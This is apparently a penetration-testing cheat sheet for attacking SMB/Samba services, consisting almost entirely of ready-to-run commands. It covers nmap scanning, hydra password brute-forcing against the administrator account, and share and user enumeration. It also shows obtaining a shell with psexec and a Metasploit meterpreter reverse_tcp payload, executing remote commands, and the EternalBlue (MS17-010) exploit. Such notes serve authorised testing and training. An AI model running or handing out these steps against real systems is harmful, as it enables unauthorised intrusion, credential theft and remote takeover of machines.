 # SMB/Samba
- Basic nmap scan.
  ```
  nmap -Pn -sV -sC -p445 <ip>
  ```

- Brute-force SMB login.
  ```
  hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> smb
  ```

- List shares.
  ```
  smbclient -L <ip> -U administrator
  
  smbmap -u administrator -p <password> -H <ip>
  
  use auxiliary/scanner/smb/smb_enumshares
  set SMBUser administrator
  set SMBPass <password>
  ```

- List users.
  ```
  enum4linux -u administrator -p <password> -U <ip>
  
  use auxiliary/scanner/smb/smb_enumusers
  set SMBUser administrator
  set SMBPass <password>
  ```

- Get a shell.
  ```
  locate psexec.py
  
  cp /usr/share/doc/python3-impacket/examples/psexec.py ./
  chmod +x psexec.py
  python3 psexec.py administrator@<ip> cmd.exe
  
  use exploit/windows/smb/psexec
  set payload windows/x64/meterpreter/reverse_tcp
  set SMBUser administrator
  set SMBPass <password>
  ```

- Execute command.
  ```
  smbmap -u administrator -p <password> -H <ip> -x ipconfig
  
  python3 psexec.py administrator@<ip> ipconfig
  ```

- EternalBlue
  ```
  use auxiliary/scanner/smb/smb_ms17_010
  
  use exploit/windows/smb/ms17_010_eternalblue
  ```
